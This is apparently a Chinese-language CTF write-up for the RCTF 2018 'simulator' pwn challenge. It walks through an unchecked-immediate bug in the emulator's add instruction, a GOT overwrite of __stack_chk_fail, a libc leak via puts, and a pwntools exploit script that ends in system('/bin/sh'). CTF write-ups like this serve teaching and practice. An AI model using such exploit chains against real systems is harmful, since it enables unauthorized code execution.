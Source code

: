# RCTF simulator
## Author： 文火

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>学习了NextLine队伍的wp（[原链接](https://lyoungjoo.github.io/2018/05/21/RCTF-2018-Write-Up/)），自己理解复现了一遍，现在我讲解一下：</font></br>
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>checksec一下关了GOT覆写保护，也关了基址随机化保护，那么就算题目没有给libc也可以用自己的，‘ldd simulator’一下然后用pwntools的ELF读取就行了。这题主要复杂在前面冗长的逆向分析，实际上模拟了MIPS指令，利用技巧上不难，程序对立即数没有检查，可以利用程序逻辑漏洞泄露更改任意地址。</font></br>
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>举个add指令的例子：</font></br>

```C
int __cdecl add(int arg1, signed int arg2, signed int arg3)
{
  int reg; // eax@2
  int v4; // eax@5
  int reg_ptr; // [sp+8h] [bp-8h]@4

  if ( arg2 > 31 )
    reg = arg2 - 32;
  else
    reg = reg_arr[2 * arg2];
  reg_ptr = reg;
  if ( arg3 > 31 )
    v4 = arg3 - 32;
  else
    v4 = reg_arr[2 * arg3];
  reg_arr[2 * arg1] = v4 + reg_ptr;
  return i++ + 1;
}
```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>这就相当于 add arg1,arg2,arg3。没有寻址检测，这就意味着如果我们不用寄存器的话，可以任意地址写，因为数组访问的本质上就是一些运算寻址罢了。因为可以改写GOT表，而且开了堆栈保护，那么我们可以覆写__stack_chk_fail函数的GOT表，覆盖为我们的payload来getshell。剩下的就是一些常用技巧了，计算基址算出libc的system和'/bin/sh'的地址。</font></br>

Exploit脚本:
=======

```python
asm = []
#利用add修改GOT表
asm.append('add %d, %d' % (c_uint32((1<<32) - 321-0x20).value,0x0804852e))
asm.append('END')

f = ''
for i in asm:
        f += i + "\n"
s.send(f)

#gadget
pr = 0x0804a8cb
pppr = 0x0804b339
lr = 0x080486e8

#泄露puts函数GOT表地址来计算基址
payload = 'A' * 0x30
payload += p32(e.plt['puts']) + p32(pr) + p32(e.got['puts'])
payload += p32(0x804ac58)
s.sendline(payload)

s.recvuntil('leave a comment: ')
libc = u32(s.recv(4)) - l.symbols['puts']
log.info("LIBC :" + hex(libc))

s.sendline('END')
binsh = next(l.search('/bin/sh'))
payload = 'A' * 0x30
payload += p32(libc + l.symbols['system']) + p32(pr) + p32(libc+binsh)
s.sendline(payload)
```

